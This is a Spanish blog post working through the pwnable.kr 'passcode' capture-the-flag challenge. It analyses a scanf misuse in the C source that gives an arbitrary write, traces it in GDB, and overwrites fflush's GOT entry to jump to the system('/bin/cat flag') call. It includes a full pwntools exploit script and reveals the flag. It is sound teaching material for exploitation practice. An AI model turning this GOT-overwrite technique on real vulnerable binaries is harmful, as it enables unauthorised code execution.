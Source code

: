 ```yaml
---
layout: post
title: pwnable.kr passcode - Arbitrary write y sobrescritura de GOT
author: c4rta
date: 2023-01-18
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, GOT overwrite, Arbitrary Write]
---
```

Tenemos un GOT overwrite donde a través de la escritura arbitraria, podemos sobreescribir la entrada .GOT de fflush() por la dirección de system(bin/cat flag) y leer la flag
{:.lead}

## Analisis del binario

### Funcion main

```c
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Lo unico que hace es llamar a dos funciones: ```welcome``` y ```login``` e imprimer unos cuantos mensajes

### Funcion welcome

```c
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

Vemos que se declara un buffer de 100, basicamente esta funcion toma 100 caracteres los cuales los guarda en la variable ```name``` e imprime el mensaje ```Welcome``` y lo que tenga ```name```

### Funcion login

```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

Después de eso tenemos la funcion ```login()``` que lee dos números enteros, luego los compara con dos constantes y, si coinciden obtenemos la bandera

Todo parece muy simple, pero si intentamos correrlo pasandole esos valores con los que se compara, veremos algo como esto:

```
passcode@pwnable:~$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta
Welcome c4rta!
enter passcode1 : 338150
Segmentation fault (core dumped)
```
Peto, pero como es que peto si parece que espera un tipo de dato int y encima el que le pasamos es igual a ```338150``` que es el primer valor con el que se compara.

Aqui una recomendacion es que si tiene el codigo fuente, lo vuelvan a compilar para ver si tiene algunos warnings y en este caso nos muestra eso:

```
passcode.c: In function ‘login’:
passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    scanf("%d", passcode1);
    ^
```

Con esto nos podemos dar cuenta el input que se guarda en ```passcode1``` no se interpreta como un int, si no como una direccion, de hecho ahi nos dice que espera un ```int *```, esto deriva de un ```arbitrary write```, en la cual es la variable ```passcode1``` podemos poner lo que queramos

### Depurandolo con GDB

Aqui me ire directamente a la funcion ```login()``` para que puedan ver que las variables se tratan como direcciones (les recomiendo que lo pongan con sintaxis intel, la sintaxis at&t esta medio pedorra: ```set disassembly-flavor intel```)

Quiero destacar algo, generalmente en ensamblador para acceder a las varibles de una funcion se hace uso del ```EBP```, esto lo digo ya que podemos tener una idea de donde se encuentran nuestras variables, quiero resaltar esto:

![](/assets/img/passcode/1.png)

Puede ser que lo que esta en ```ebp-0x10``` sea la variable passcode asi que para corroborar eso pondre un breakpoint alli e ejecutare el programa:


Como se puede ver:

```
(gdb) x/xw $ebp-0x10
0xffefef58:	0xf7586cbb
```
La variable ```passcode1``` (ebp-0x10) esta apuntando a ```0xf7586cbb```, que es la direccion en la que esta escribiendo en ```scanf()``` 

Ademas podemos ver que en las comparaciones:

```
cmp    DWORD PTR [ebp-0x10],0x528e6
DWORD PTR [ebp-0xc],0xcc07c9
```

Esta comparando direcciones ```0x528e6``` y ```0xcc07c9``` no un valor, entonces el código intenta cargar la dirección de ```passcode1``` y ```passcode2``` que obviamente no existen. Esa es la razon por la que el programa peta


## Explotacion



Si sabemos que tenenemos una escritura arbitraria para poder sobrescribir el valor de passcode1, ¿Entonces como nos aprovechamos de esto?, pues debemos de aplicar otra tecnica llamada GOT overwrite

En el código de login() después de scanf lo que sigue después es fflush(stdin), esto puede ser usado para realizar un "salto" hacía una dirección. Si te das cuenta, cuando vemos el código te la función fflush(), está usando la instrucción jmp para saltar a ```0x804a004``` , además fflush está referenciada por .PLT y eso lo podemos ver en ```fflush@PLT``` así que fflush() debe de tener una entrada en .GOT a la que va a saltar, ademas, gracias a qué scanf() está antes que fflush(), nosotros podemos controlar ```0x804a004```, la idea es:

- Mandar los suficientes bytes para llenar el buffer

- Sobreescribir passcode1 por 0x804a004, y eso nos permitirá una escritura arbitraria en fflush@GOT

- Y a través de la escritura arbitraria, podemos sobreescribir la entrada .GOT de fflush() por la dirección de system(bin/cat flag)



### Desplazamiento para passcode1

Lo primero que hay que obtener es el desplazamiento para llegar a ```passcode1```, y es bien facil, simplemente podemos hacer una resta de la ubicacion de la variable ```name``` la que recibe nuestro primer input, con la ubicacion de la variable ```passcode``` y la variable ```name``` esta ```0x70``` por debajo de ```EBP```, deja te muesto.

En la funcion ```welcome()``` hay una linea como esta:

```0x0804862f <+38>:	lea    edx,[ebp-0x70]```

La cual usa el registro ```EDX``` este registro es usado para menejar las operaciones I/0, asi que pondre un breakpoint donde se recibe nuestro input

```b *0x08048643```

Ahora si yo muestro lo que tiene ```ebp-0x70``` veremos algo como esto:

```
(gdb) r
Starting program: /home/passcode/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta --> Mi input

Breakpoint 1, 0x08048643 in welcome ()
(gdb) x/1s $ebp-0x70
0xffa1a2c8:	"c4rta" --> El valor que tiene
(gdb) 
```

Ahora esta comprobado que en ```ebp-0x70``` esta la variable ```name```.

Asi que para sacar el desplazamiento para llegar a ```passcode1``` hacemos ```0x70 - 0x10```, y esto nos da ```96``` es decimal

### Direccion de fflush

Primero hay que mostrar el contenido de la funcion: 

```
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```

Vemos que la entrada de ```fflush``` esta con la direccion ```0x804a004``` y su valor es ```0x08048436``` que es cuando se hace el ```push```. y esta direccion la ocupamos ya que sobrescribiremos ```fflush``` para que llame a ```/bin/cat flag``` que esta en la direccion ```0x080485e3```

### Crafteando el exploit

```py
from pwn import *

context.update(arch="i386", os="linux")
p = process("./passcode")

payload = b'A' * 96             # desplazamiento para passcode
payload += p32(0x0804a004)      # direccion de la entrada GOT de fflush
payload += str.encode(str(0x080485e3))  # direccion de bin/cat flag

print(p.recvline())
p.sendline(payload)
print(p.recvall())
```
Y nos da la flag la cual es: ```Sorry mom.. I got confused about scanf usage :(```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/passcode/waifu.gif)